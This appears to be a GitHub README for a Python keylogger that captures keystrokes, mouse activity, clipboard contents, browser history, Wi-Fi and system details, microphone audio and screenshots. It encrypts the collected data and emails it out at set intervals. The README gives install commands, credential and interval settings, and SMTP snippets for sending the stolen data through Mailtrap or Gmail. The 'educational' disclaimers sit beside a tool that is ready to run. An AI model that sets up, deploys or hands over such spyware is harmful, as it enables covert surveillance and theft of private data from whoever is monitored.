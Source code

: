 # Multifunctional-Keylogger
 
# 🖥️ Python Keylogger – Educational Tool

> ⚠️ **DISCLAIMER**: This project is intended strictly for educational and ethical hacking purposes. Do not deploy or distribute without explicit permission from the device owner. Misuse may be illegal and punishable under cybersecurity laws.

## 💡 What It Does
This Python script is a multi-functional keylogger that collects various types of system and user input data and emails it at regular intervals.

## ✅ Features
- 🎹 Keystroke Logging (via pynput)
- 🖱️ Mouse Movement & Click Tracking
- 📋 Clipboard Capture
- 🔍 Active Window Logging
- 🌐 System Information Grabber
- 📶 Wi-Fi Information
- 📍 Geolocation Lookup
- 🧭 Chrome Browser History Extraction
- 📦 USB Devices Checker
- 🎤 Microphone Audio Recorder (10 seconds)
- 📸 Screenshot Capture (every 60s)
- 🔒 Log Encryption (Fernet)
- 📧 Email Reports (via SMTP)
- 🔁 Auto-Repeat with Threads

## 🧪 Installation

### 📦 Requirements
- Python 3.9+

Install all required modules automatically (already handled in code):
```bash
pip install pyscreenshot pynput sounddevice clipboard cryptography requests pywin32
```
Or install manually:
```bash
pip install -r requirements.txt
```

## ⚙️ Configuration
Edit these two lines in the script:
```python
EMAIL_ADDRESS = "your_mailtrap_or_smtp_email"
EMAIL_PASSWORD = "your_password_or_smtp_token"
SEND_REPORT_EVERY = 40  # interval in seconds
```

You must use a working SMTP server. This example uses Mailtrap for safe testing:
```python
with smtplib.SMTP("smtp.mailtrap.io", 2525) as server:
```

You can switch to Gmail SMTP like so:
```python
with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
```
🧠 If using Gmail, you may need to generate an App Password.

## 🚀 Running the Keylogger
Run the script:
```bash
python keylogger.py
```

## 📥 Extracting Audio/Images from EML
If you're using Mailtrap or a similar service and want to extract attached WAV recordings from `.eml` files, use `file_extract.py` in the uploaded files section


## 📂 Files & Attachments
The script collects the following:
- Logs of keystrokes and mouse activity
- Clipboard contents
- Active window titles
- System info (hostname, IP, OS, etc.)
- Wi-Fi info
- USB devices info
- Chrome browser history (top 5)
- Microphone audio (sound.wav)
- Screenshots (screenshot.png)

All files are encrypted and emailed to you and optionally auto-deleted afterward.

## 🛡️ Legal Warning
This script should never be used for spying, stalking, or stealing personal information. Use it in your own environment, for:
- Security testing
- Parental control
- Keyboard input analytics
- Ethical hacking training

## 🙋‍♂️ Author
Built with passion by an ethical hacker(@PHHS-07) for practice & learning.
